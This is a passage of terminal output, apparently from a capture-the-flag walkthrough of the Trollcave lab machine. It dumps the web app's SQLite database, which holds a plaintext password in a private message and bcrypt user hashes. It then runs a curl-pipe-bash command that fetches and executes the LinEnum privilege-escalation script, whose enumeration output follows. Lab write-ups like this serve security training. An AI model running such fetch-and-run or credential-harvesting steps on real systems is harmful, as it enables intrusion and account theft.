drwxr-xr-x 2 rails rails  4096 Sep 16  2016 migrate
-rw-r--r-- 1 rails rails  3336 Sep 29  2017 schema.rb
-rw-r--r-- 1 rails rails     0 Sep 29  2017 test.sqlite3
rails@trollcave:/var/www/trollcave/db$ sqlite3 development.sqlite3
SQLite version 3.11.0 2016-02-15 17:29:24
Enter ".help" for usage hints.
sqlite> .tables
admin_settings     comments           reports            user_files
blogs              private_messages   schema_migrations  users
sqlite> select * from private_messages
   ...> ;
1|password|
use it sparingly

uFrrK3dXzWeZQ7JtGgZk4FT

do NOT share it
|1|3|2017-09-29 14:03:24.494241|2017-09-29 14:03:24.494241
sqlite> select * from users;
1|King|king@trollcave.com|:)|$2a$10$tHX6EGkwuapTRY1/7R/meuVPLUT8Tkooh0M6WpQpGKOSSwuuc.7C.||5|0|||2017-09-29 14:03:23.339227|2017-09-29 14:03:23.339227|||
2|dave|david@32letters.com|nah lol|$2a$10$DpHp4ikbNnq/43uhbjWJcee9lTLDTTx2ndtSl99m81wDSvNBuztiS||4|0|||2017-09-29 14:03:23.414352|2017-09-29 14:03:23.414352|||
3|dragon|dragon@trollcave.com|Over fire and over stone / Over water and over bone / Shining out like jewels of light / On a sheet of purest night|$2a$10$XmozUYK/xikEb7CktLCer.LXwXYFDzISlCNGKGh8sxyqy7OunCdFS||4|0|||2017-09-29 14:03:23.484532|2017-09-29 14:03:23.484532|||
4|coderguy|coderguy@trollcave.com|;)|$2a$10$XVAiu4/71LV.2JA5e6UZr.BEIvSpAI0Wt8YqKU0FOdcKwcQIAppLO||4|0|||2017-09-29 14:03:23.550390|2017-09-29 14:03:23.550390|||
5|cooldude89|kewldewdeightynine@zmail.com|i am the dankest|$2a$10$HR0yIsnfKaSG07Kge5Z7K.Ki7dthW3IqQ0PYd/ZS3rA.KFjWv92z.||3|0|||2017-09-29 14:03:23.616162|2017-09-29 14:03:23.616162|||
6|Sir|sir@zmail.com|It's super secure|$2a$10$tYaFo0fGxFreOdFBy3ch5ej/UrznlUQBcM8l7il0Zx25ca6as/xza||3|0|||2017-09-29 14:03:23.682157|2017-09-29 14:03:23.682157|||
7|Q|q@zmail.com|Your normal password|$2a$10$gTZ1kX5xHLp0JT78n.UMeeAd789/5h1p8Ox4L2e4rCIVPImb6vOfu||3|0|||2017-09-29 14:03:23.753882|2017-09-29 14:03:23.753882|||
8|teflon|tf@zmail.com|swordfish|$2a$10$F5Ajt2HI.7xshVrHJqZy6.Iv2myLqDJwgyzBDogDe79WlDdIrsBDO||3|0|||2017-09-29 14:03:23.819291|2017-09-29 14:03:23.819291|||
9|TheDankMan|dope@dankmail.com|420|$2a$10$bbI2A71mL5pcCtY/mB4nIeQzxi4z6/c/K/0RpurZMMfBn4I7JGGlm||2|0|||2017-09-29 14:03:23.884605|2017-09-29 14:03:23.884605|||
10|artemus|artemus_12145@zmail.com|garden|$2a$10$x/L0IWKs29nrN9qOVisPzeIJIrBaZfCMXWJdco6DUtZlGMOAuWrmO||2|0|||2017-09-29 14:03:23.950848|2017-09-29 14:03:23.950848|||
11|MrPotatoHead|potatoe@zmail.com|you know...|$2a$10$AmuZ8ccJ4r3kaAc13ycjTezsAbvtF66lNkq2R7tXmLNWuf8U12sLG||2|0|||2017-09-29 14:03:24.016908|2017-09-29 14:03:24.016908|||
12|Ian|iane@zmail.com|a|$2a$10$InZ5.qJvFkgZX76xw8ZqGekxhwmvGCaRNBqU0rroOqG4RRuSZsXFK||2|0|||2017-09-29 14:03:24.082082|2017-09-29 14:03:24.082082|||
13|kev|kevin@zmail.com|mother's maiden name|$2a$10$D13SoP5GCHC6RkIBOQSXKuQf9E9h5Mo1evGZJa9p23xzUSkfugj7S||1|0|||2017-09-29 14:03:24.149092|2017-09-29 14:03:24.149092|||
14|notanother|notanother@zmail.com|(:|$2a$10$PYqCCOIop.NRMWm13ue26eEkc/ZR/7rDCOpiN5.9rkZ7/GSUcJ8rC||1|0|||2017-09-29 14:03:24.215992|2017-09-29 14:03:24.215992|||
15|anybodyhome|anybodyhome@zmail.com|no one is|$2a$10$Dc1Q8NufJ/oEZLeIxFWASOT4Kj4/WHzmTNUaD6U9omBtKapLJFKse||1|0|||2017-09-29 14:03:24.282237|2017-09-29 14:03:24.282237|||
16|onlyme|onlymememe@zmail.com|It is what it is|$2a$10$X4DKSco.clov.ro0pcN.nO1DYa3V/PRAQq6oOQCb/TW.MJyaHqSnW||1|0|||2017-09-29 14:03:24.348750|2017-09-29 14:03:24.348750|||
17|xer|xer@zmail.com|fave pronoun|$2a$10$rjjHGOYhobwzMPysTjd0k.OWH4x/FlnCtIv6VjPstLR3RWYOSHyQ6||1|0|||2017-09-29 14:03:24.414057|2017-09-29 14:03:24.414057|||
sqlite>
```

```sh
rails@trollcave:/tmp$ curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 42150  100 42150    0     0  93615      0 --:--:-- --:--:-- --:--:-- 93458

#########################################################
# Local Linux Enumeration & Privilege Escalation Script #
#########################################################
# www.rebootuser.com
#

[-] Debug Info
[+] Thorough tests = Disabled (SUID/GUID checks will not be perfomed!)


Scan started at:
Sun May  6 05:24:30 SAST 2018


### SYSTEM ##############################################
[-] Kernel information:
Linux trollcave 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux


[-] Kernel information (continued):
Linux version 4.4.0-116-generic (buildd@lgw01-amd64-021) (gcc version 5.4.0 20160609 (Ubuntu 5.4.0-6ubuntu1~16.04.9) ) #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018


[-] Specific release information:
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=16.04
DISTRIB_CODENAME=xenial
DISTRIB_DESCRIPTION="Ubuntu 16.04.4 LTS"
NAME="Ubuntu"
VERSION="16.04.4 LTS (Xenial Xerus)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 16.04.4 LTS"
VERSION_ID="16.04"
HOME_URL="http://www.ubuntu.com/"
SUPPORT_URL="http://help.ubuntu.com/"
BUG_REPORT_URL="http://bugs.launchpad.net/ubuntu/"
VERSION_CODENAME=xenial
UBUNTU_CODENAME=xenial


[-] Hostname:
trollcave


### USER/GROUP ##########################################
[-] Current user/group info:
uid=1001(rails) gid=1001(rails) groups=1001(rails)


[-] Users that have previously logged onto the system:
Username         Port     From             Latest
king             tty1                      Wed Mar 21 14:01:09 +0200 2018
rails            pts/0    192.168.1.28     Sun May  6 05:17:37 +0200 2018


[-] Who else is logged on:
 05:24:30 up  3:28,  1 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
rails    pts/0    192.168.1.28     05:17    2.00s  0.06s  0.00s bash


[-] Group memberships:
uid=0(root) gid=0(root) groups=0(root)
uid=1(daemon) gid=1(daemon) groups=1(daemon)
uid=2(bin) gid=2(bin) groups=2(bin)
uid=3(sys) gid=3(sys) groups=3(sys)
uid=4(sync) gid=65534(nogroup) groups=65534(nogroup)
uid=5(games) gid=60(games) groups=60(games)
uid=6(man) gid=12(man) groups=12(man)
uid=7(lp) gid=7(lp) groups=7(lp)
uid=8(mail) gid=8(mail) groups=8(mail)
uid=9(news) gid=9(news) groups=9(news)
uid=10(uucp) gid=10(uucp) groups=10(uucp)
uid=13(proxy) gid=13(proxy) groups=13(proxy)
uid=33(www-data) gid=33(www-data) groups=33(www-data)
uid=34(backup) gid=34(backup) groups=34(backup)
uid=38(list) gid=38(list) groups=38(list)
uid=39(irc) gid=39(irc) groups=39(irc)
uid=41(gnats) gid=41(gnats) groups=41(gnats)
uid=65534(nobody) gid=65534(nogroup) groups=65534(nogroup)
uid=100(systemd-timesync) gid=102(systemd-timesync) groups=102(systemd-timesync)
uid=101(systemd-network) gid=103(systemd-network) groups=103(systemd-network)
uid=102(systemd-resolve) gid=104(systemd-resolve) groups=104(systemd-resolve)
uid=103(systemd-bus-proxy) gid=105(systemd-bus-proxy) groups=105(systemd-bus-proxy)
uid=104(syslog) gid=108(syslog) groups=108(syslog),4(adm)
uid=105(_apt) gid=65534(nogroup) groups=65534(nogroup)
uid=106(lxd) gid=65534(nogroup) groups=65534(nogroup)
uid=107(messagebus) gid=111(messagebus) groups=111(messagebus)
uid=108(uuidd) gid=112(uuidd) groups=112(uuidd)
uid=109(dnsmasq) gid=65534(nogroup) groups=65534(nogroup)
uid=110(sshd) gid=65534(nogroup) groups=65534(nogroup)
uid=111(postgres) gid=116(postgres) groups=116(postgres),115(ssl-cert)
uid=1000(king) gid=1000(king) groups=1000(king),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),117(lpadmin),118(sambashare)
uid=1001(rails) gid=1001(rails) groups=1001(rails)
uid=1002(dragon) gid=1002(dragon) groups=1002(dragon)
uid=1003(dave) gid=1003(dave) groups=1003(dave)
uid=1004(coderguy) gid=1004(coderguy) groups=1004(coderguy)


[-] It looks like we have some admin users:
uid=104(syslog) gid=108(syslog) groups=108(syslog),4(adm)
uid=1000(king) gid=1000(king) groups=1000(king),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),117(lpadmin),118(sambashare)


[-] Contents of /etc/passwd:
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
postgres:x:111:116:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
king:x:1000:1000:King,,,:/home/king:/bin/bash
rails:x:1001:1001::/home/rails:
dragon:x:1002:1002:,,,:/home/dragon:/bin/bash
dave:x:1003:1003:,,,:/home/dave:/bin/bash
coderguy:x:1004:1004:,,,:/home/coderguy:/bin/bash


[-] Super user account(s):
root


[-] Accounts that have recently used sudo:
/home/king/.sudo_as_admin_successful


[-] Are permissions on /home directories lax:
total 28K
drwxr-xr-x  7 root     root     4.0K Oct 23  2017 .
drwxr-xr-x 23 root     root     4.0K Mar 21 14:04 ..
drwxr-xr-x  2 coderguy coderguy 4.0K Oct 23  2017 coderguy
drwxr-xr-x  2 dave     dave     4.0K Oct 23  2017 dave
drwxr-xr-x  2 dragon   dragon   4.0K Oct 23  2017 dragon
drwxr-xr-x  4 king     king     4.0K Mar 21 14:04 king
drwxr-xr-x  7 rails    rails    4.0K May  6 05:24 rails


### ENVIRONMENTAL #######################################
[-] Environment information:
XDG_SESSION_ID=27
TERM=xterm-256color
SHELL=/bin/sh
SSH_CLIENT=192.168.1.28 53430 22
SSH_TTY=/dev/pts/0
USER=rails
MAIL=/var/mail/rails
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
PWD=/tmp
LANG=en_US.UTF-8
HOME=/home/rails
SHLVL=2
LOGNAME=rails
LC_CTYPE=en_US.UTF-8
SSH_CONNECTION=192.168.1.28 53430 192.168.1.30 22
XDG_DATA_DIRS=/usr/local/share:/usr/share:/var/lib/snapd/desktop
XDG_RUNTIME_DIR=/run/user/1001
_=/usr/bin/env


[-] Path information:
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin


[-] Available shells:
# /etc/shells: valid login shells
/bin/sh
/bin/dash
/bin/bash
/bin/rbash
/usr/bin/tmux
/usr/bin/screen


[-] Current umask value:
0002
u=rwx,g=rwx,o=rx


[-] umask value as specified in /etc/login.defs:
UMASK		022


[-] Password and storage information:
PASS_MAX_DAYS	99999
PASS_MIN_DAYS	0
PASS_WARN_AGE	7
ENCRYPT_METHOD SHA512


### JOBS/TASKS ##########################################
[-] Cron jobs:
-rw-r--r-- 1 root root  722 Apr  5  2016 /etc/crontab

/etc/cron.d:
total 24
drwxr-xr-x  2 root root 4096 Oct 23  2017 .
drwxr-xr-x 99 root root 4096 Oct 23  2017 ..
-rw-r--r--  1 root root  589 Jul 16  2014 mdadm
-rw-r--r--  1 root root  102 Apr  5  2016 .placeholder
-rw-r--r--  1 root root  191 Sep 16  2016 popularity-contest
-rw-r--r--  1 root root  396 Jan 28  2016 sysstat

/etc/cron.daily:
total 60
drwxr-xr-x  2 root root 4096 Oct 23  2017 .
drwxr-xr-x 99 root root 4096 Oct 23  2017 ..
-rwxr-xr-x  1 root root  376 Mar 31  2016 apport
-rwxr-xr-x  1 root root 1474 Jan 17  2017 apt-compat
-rwxr-xr-x  1 root root  355 May 22  2012 bsdmainutils
-rwxr-xr-x  1 root root 1597 Nov 27  2015 dpkg
-rwxr-xr-x  1 root root  372 May  6  2015 logrotate
-rwxr-xr-x  1 root root 1293 Nov  6  2015 man-db
-rwxr-xr-x  1 root root  539 Jul 16  2014 mdadm
-rwxr-xr-x  1 root root  435 Nov 18  2014 mlocate
-rwxr-xr-x  1 root root  249 Nov 13  2015 passwd
-rw-r--r--  1 root root  102 Apr  5  2016 .placeholder
-rwxr-xr-x  1 root root 3449 Feb 26  2016 popularity-contest
-rwxr-xr-x  1 root root  441 Jan 28  2016 sysstat
-rwxr-xr-x  1 root root  214 Apr 12  2016 update-notifier-common

/etc/cron.hourly:
total 12
drwxr-xr-x  2 root root 4096 Sep 16  2016 .
drwxr-xr-x 99 root root 4096 Oct 23  2017 ..
-rw-r--r--  1 root root  102 Apr  5  2016 .placeholder

/etc/cron.monthly:
total 12
drwxr-xr-x  2 root root 4096 Sep 16  2016 .
drwxr-xr-x 99 root root 4096 Oct 23  2017 ..
-rw-r--r--  1 root root  102 Apr  5  2016 .placeholder

/etc/cron.weekly:
total 24
drwxr-xr-x  2 root root 4096 Oct 23  2017 .
drwxr-xr-x 99 root root 4096 Oct 23  2017 ..
-rwxr-xr-x  1 root root   86 Apr 13  2016 fstrim
-rwxr-xr-x  1 root root  771 Nov  6  2015 man-db
-rw-r--r--  1 root root  102 Apr  5  2016 .placeholder
-rwxr-xr-x  1 root root  211 Apr 12  2016 update-notifier-common


[-] Crontab contents:
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#


### NETWORKING  ##########################################
[-] Network and IP info:
enp0s3    Link encap:Ethernet  HWaddr 08:00:27:d0:d7:c5
          inet addr:192.168.1.30  Bcast:192.168.1.255  Mask:255.255.255.0
          inet6 addr: fe80::a00:27ff:fed0:d7c5/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:274903 errors:0 dropped:0 overruns:0 frame:0
          TX packets:16234 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:18512387 (18.5 MB)  TX bytes:20135627 (20.1 MB)

lo        Link encap:Local Loopback
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:181849 errors:0 dropped:0 overruns:0 frame:0
          TX packets:181849 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1
          RX bytes:298107737 (298.1 MB)  TX bytes:298107737 (298.1 MB)


[-] ARP history:
? (192.168.1.1) at a0:63:91:f0:cc:4b [ether] on enp0s3
? (192.168.1.67) at 00:0c:29:a3:a1:09 [ether] on enp0s3
? (192.168.1.7) at f4:0f:24:33:5e:d1 [ether] on enp0s3
? (192.168.1.28) at 00:0c:29:a3:a1:09 [ether] on enp0s3


[-] Nameserver(s):
nameserver 192.168.1.1


[-] Default route:
default         192.168.1.1     0.0.0.0         UG    0      0        0 enp0s3


[-] Listening TCP:
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:3000            0.0.0.0:*               LISTEN      931/ruby2.3
tcp        0      0 127.0.0.1:5432          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:8888          0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:54856         127.0.0.1:80            TIME_WAIT   -
tcp        0      0 127.0.0.1:38236         127.0.0.1:3000          TIME_WAIT   -
tcp        0      0 192.168.1.30:22         192.168.1.28:53430      ESTABLISHED -
tcp        0      0 127.0.0.1:3000          127.0.0.1:38250         TIME_WAIT   -
tcp        0      0 127.0.0.1:3000          127.0.0.1:38176         TIME_WAIT   -
tcp        0      0 127.0.0.1:54962         127.0.0.1:80            TIME_WAIT   -
tcp        0      0 127.0.0.1:3000          127.0.0.1:38180         TIME_WAIT   -
tcp        0      0 127.0.0.1:3000          127.0.0.1:38230         TIME_WAIT   -
tcp        0      0 127.0.0.1:38204         127.0.0.1:3000          TIME_WAIT   -
tcp        0      0 127.0.0.1:3000          127.0.0.1:38206         TIME_WAIT   -
tcp        0      0 127.0.0.1:54948         127.0.0.1:80            TIME_WAIT   -
tcp        0      0 127.0.0.1:38200         127.0.0.1:3000          TIME_WAIT   -
tcp        0      0 127.0.0.1:3000          127.0.0.1:38222         TIME_WAIT   -
tcp        0      0 127.0.0.1:38244         127.0.0.1:3000          TIME_WAIT   -
tcp        0      0 127.0.0.1:3000          127.0.0.1:38246         TIME_WAIT   -
tcp        0      0 127.0.0.1:38224         127.0.0.1:3000          TIME_WAIT   -
tcp        0      0 127.0.0.1:3000          127.0.0.1:38186         TIME_WAIT   -
tcp        0      0 127.0.0.1:3000          127.0.0.1:38188         TIME_WAIT   -
tcp        0      0 127.0.0.1:54942         127.0.0.1:80            TIME_WAIT   -
tcp        0      0 127.0.0.1:54938         127.0.0.1:80            ESTABLISHED 1211/ruby
tcp        0      0 127.0.0.1:3000          127.0.0.1:38208         TIME_WAIT   -
tcp        0      0 127.0.0.1:54900         127.0.0.1:80            TIME_WAIT   -
tcp        0      0 127.0.0.1:54954         127.0.0.1:80            TIME_WAIT   -
tcp        0      0 127.0.0.1:54912         127.0.0.1:80            TIME_WAIT   -
tcp        0      0 127.0.0.1:38234         127.0.0.1:3000          TIME_WAIT   -
tcp        0      0 127.0.0.1:54894         127.0.0.1:80            TIME_WAIT   -
tcp        0      0 127.0.0.1:80            127.0.0.1:54938         ESTABLISHED -
tcp        0      0 127.0.0.1:3000          127.0.0.1:38218         TIME_WAIT   -
tcp        0      0 127.0.0.1:3000          127.0.0.1:38182         TIME_WAIT   -
tcp        0      0 127.0.0.1:38202         127.0.0.1:3000          TIME_WAIT   -
tcp        0      0 127.0.0.1:54918         127.0.0.1:80            TIME_WAIT   -
tcp        0      0 127.0.0.1:3000          127.0.0.1:38242         TIME_WAIT   -
tcp        0      0 127.0.0.1:38198         127.0.0.1:3000          TIME_WAIT   -
tcp        0      0 127.0.0.1:54916         127.0.0.1:80            TIME_WAIT   -
tcp        0      0 127.0.0.1:54906         127.0.0.1:80            TIME_WAIT   -
tcp        0      0 127.0.0.1:54960         127.0.0.1:80            TIME_WAIT   -
tcp        0      0 127.0.0.1:54896         127.0.0.1:80            TIME_WAIT   -
tcp        0      0 127.0.0.1:54914         127.0.0.1:80            TIME_WAIT   -
tcp        0      0 127.0.0.1:38228         127.0.0.1:3000          TIME_WAIT   -
tcp        0      0 127.0.0.1:54936         127.0.0.1:80            TIME_WAIT   -
tcp6       0      0 :::22                   :::*                    LISTEN      -
tcp6       0      0 ::1:5432                :::*                    LISTEN      -
tcp6       0      0 ::1:5432                ::1:56326               ESTABLISHED -
tcp6       0      0 ::1:5432                ::1:56684               ESTABLISHED -
tcp6       0      0 ::1:5432                ::1:56682               ESTABLISHED -
tcp6       0      0 ::1:56326               ::1:5432                ESTABLISHED 931/ruby2.3
tcp6       0      0 ::1:5432                ::1:56680               ESTABLISHED -
tcp6       0      0 ::1:56684               ::1:5432                ESTABLISHED 931/ruby2.3
tcp6       0      0 ::1:56680               ::1:5432                ESTABLISHED 931/ruby2.3
tcp6       0      0 ::1:56686               ::1:5432                ESTABLISHED 931/ruby2.3
tcp6       0      0 ::1:5432                ::1:56686               ESTABLISHED -
tcp6       0      0 ::1:56682               ::1:5432                ESTABLISHED 931/ruby2.3


[-] Listening UDP:
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
udp        0      0 0.0.0.0:68              0.0.0.0:*                           -
udp6       0      0 ::1:37118               ::1:37118               ESTABLISHED -


### SERVICES #############################################
[-] Running processes:
USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root         1  0.0  0.7  37692  5680 ?        Ss   01:55   0:02 /sbin/init
root         2  0.0  0.0      0     0 ?        S    01:55   0:00 [kthreadd]
root         3  0.0  0.0      0     0 ?        S    01:55   0:01 [ksoftirqd/0]
root         5  0.0  0.0      0     0 ?        S<   01:55   0:00 [kworker/0:0H]
root         7  0.0  0.0      0     0 ?        S    01:55   0:01 [rcu_sched]
root         8  0.0  0.0      0     0 ?        S    01:55   0:00 [rcu_bh]
root         9  0.0  0.0      0     0 ?        S    01:55   0:00 [migration/0]
root        10  0.0  0.0      0     0 ?        S    01:55   0:00 [watchdog/0]
root        11  0.0  0.0      0     0 ?        S    01:55   0:00 [kdevtmpfs]
root        12  0.0  0.0      0     0 ?        S<   01:55   0:00 [netns]
root        13  0.0  0.0      0     0 ?        S<   01:55   0:00 [perf]
root        14  0.0  0.0      0     0 ?        S    01:55   0:00 [khungtaskd]
root        15  0.0  0.0      0     0 ?        S<   01:55   0:00 [writeback]
root        16  0.0  0.0      0     0 ?        SN   01:55   0:00 [ksmd]
root        17  0.0  0.0      0     0 ?        SN   01:55   0:00 [khugepaged]
root        18  0.0  0.0      0     0 ?        S<   01:55   0:00 [crypto]
root        19  0.0  0.0      0     0 ?        S<   01:55   0:00 [kintegrityd]
root        20  0.0  0.0      0     0 ?        S<   01:55   0:00 [bioset]
root        21  0.0  0.0      0     0 ?        S<   01:55   0:00 [kblockd]
root        22  0.0  0.0      0     0 ?        S<   01:55   0:00 [ata_sff]
root        23  0.0  0.0      0     0 ?        S<   01:55   0:00 [md]
root        24  0.0  0.0      0     0 ?        S<   01:55   0:00 [devfreq_wq]
root        28  0.0  0.0      0     0 ?        S    01:55   0:00 [kswapd0]
root        29  0.0  0.0      0     0 ?        S<   01:55   0:00 [vmstat]
root        30  0.0  0.0      0     0 ?        S    01:55   0:00 [fsnotify_mark]
root        31  0.0  0.0      0     0 ?        S    01:55   0:00 [ecryptfs-kthrea]
root        47  0.0  0.0      0     0 ?        S<   01:55   0:00 [kthrotld]
root        48  0.0  0.0      0     0 ?        S<   01:55   0:00 [acpi_thermal_pm]
root        49  0.0  0.0      0     0 ?        S<   01:55   0:00 [bioset]
root        50  0.0  0.0      0     0 ?        S<   01:55   0:00 [bioset]
root        51  0.0  0.0      0     0 ?        S<   01:55   0:00 [bioset]
root        52  0.0  0.0      0     0 ?        S<   01:55   0:00 [bioset]
root        53  0.0  0.0      0     0 ?        S<   01:55   0:00 [bioset]
root        54  0.0  0.0      0     0 ?        S<   01:55   0:00 [bioset]
root        55  0.0  0.0      0     0 ?        S<   01:55   0:00 [bioset]
root        56  0.0  0.0      0     0 ?        S<   01:55   0:00 [bioset]
root        57  0.0  0.0      0     0 ?        S    01:55   0:00 [scsi_eh_0]
root        58  0.0  0.0      0     0 ?        S<   01:55   0:00 [scsi_tmf_0]
root        59  0.0  0.0      0     0 ?        S    01:55   0:00 [scsi_eh_1]
root        60  0.0  0.0      0     0 ?        S<   01:55   0:00 [scsi_tmf_1]
root        66  0.0  0.0      0     0 ?        S<   01:55   0:00 [ipv6_addrconf]
root        79  0.0  0.0      0     0 ?        S<   01:55   0:00 [deferwq]
root        80  0.0  0.0      0     0 ?        S<   01:55   0:00 [charger_manager]
root        81  0.0  0.0      0     0 ?        S<   01:55   0:00 [bioset]
root       127  0.0  0.0      0     0 ?        S<   01:55   0:00 [kpsmoused]
root       129  0.0  0.0      0     0 ?        S    01:55   0:00 [scsi_eh_2]
root       130  0.0  0.0      0     0 ?        S<   01:55   0:00 [scsi_tmf_2]
root       131  0.0  0.0      0     0 ?        S<   01:55   0:00 [kworker/0:1H]
root       161  0.0  0.0      0     0 ?        S<   01:55   0:00 [bioset]
root       236  0.0  0.0      0     0 ?        S<   01:56   0:00 [raid5wq]
root       267  0.0  0.0      0     0 ?        S<   01:56   0:00 [bioset]
root       292  0.0  0.0      0     0 ?        S    01:56   0:00 [jbd2/sda1-8]
root       293  0.0  0.0      0     0 ?        S<   01:56   0:00 [ext4-rsv-conver]
root       342  0.1  0.9  36628  7476 ?        Ss   01:56   0:13 /lib/systemd/systemd-journald
root       343  0.0  0.0      0     0 ?        S<   01:56   0:00 [iscsi_eh]
root       377  0.0  0.0      0     0 ?        S    01:56   0:00 [kauditd]
root       392  0.0  0.0      0     0 ?        S<   01:56   0:00 [ib_addr]
root       393  0.0  0.2  94772  1572 ?        Ss   01:56   0:00 /sbin/lvmetad -f
root       402  0.0  0.0      0     0 ?        S<   01:56   0:00 [ib_mcast]
root       403  0.0  0.0      0     0 ?        S<   01:56   0:00 [ib_nl_sa_wq]
root       405  0.0  0.5  44772  4256 ?        Ss   01:56   0:00 /lib/systemd/systemd-udevd
root       408  0.0  0.0      0     0 ?        S<   01:56   0:00 [ib_cm]
root       411  0.0  0.0      0     0 ?        S<   01:56   0:00 [iw_cm_wq]
root       414  0.0  0.0      0     0 ?        S<   01:56   0:00 [rdma_cm]
systemd+   517  0.0  0.3 100324  2548 ?        Ssl  01:56   0:00 /lib/systemd/systemd-timesyncd
root       677  0.0  0.0      0     0 ?        S<   01:56   0:00 [iprt-VBoxWQueue]
root       759  0.0  0.0      0     0 ?        S<   01:56   0:00 [ttm_swap]
root       872  0.0  0.2  16116  1620 ?        Ss   01:56   0:00 /sbin/dhclient -1 -v -pf /run/dhclient.enp0s3.pid -lf /var/lib/dhcp/dhclient.enp0s3.leases -I -df /var/lib/dhcp/dhclient6.enp0s3.leases enp0s3
rails      931  0.3 23.6 825312 178880 ?       Ssl  01:56   0:46 /usr/bin/ruby2.3 bin/rails s --bind=0.0.0.0
root       934  0.0  0.3  28620  2980 ?        Ss   01:56   0:00 /lib/systemd/systemd-logind
root       940  0.0  0.2  95368  1520 ?        Ssl  01:56   0:00 /usr/bin/lxcfs /var/lib/lxcfs/
root       944  0.0  0.1   4396  1352 ?        Ss   01:56   0:00 /usr/sbin/acpid
message+   946  0.0  0.4  42892  3768 ?        Ss   01:56   0:00 /usr/bin/dbus-daemon --system --address=systemd: --nofork --nopidfile --systemd-activation
root       956  0.0  0.8 275856  6288 ?        Ssl  01:56   0:00 /usr/lib/accountsservice/accounts-daemon
daemon     961  0.0  0.2  26044  2180 ?        Ss   01:56   0:00 /usr/sbin/atd -f
king       963  0.0  2.7 744952 21192 ?        Ssl  01:56   0:00 /usr/bin/nodejs /home/king/calc/calc.js
root       967  0.0  0.3  29008  3024 ?        Ss   01:56   0:00 /usr/sbin/cron -f
syslog     968  0.0  0.5 256392  4096 ?        Ssl  01:56   0:06 /usr/sbin/rsyslogd -n
root       976  0.0  3.1 280052 23952 ?        Ssl  01:56   0:00 /usr/lib/snapd/snapd
root       993  0.0  0.0  13372   156 ?        Ss   01:56   0:00 /sbin/mdadm --monitor --pid-file /run/mdadm/monitor.pid --daemonise --scan --syslog
root       999  0.0  0.8 277084  6116 ?        Ssl  01:56   0:00 /usr/lib/policykit-1/polkitd --no-debug
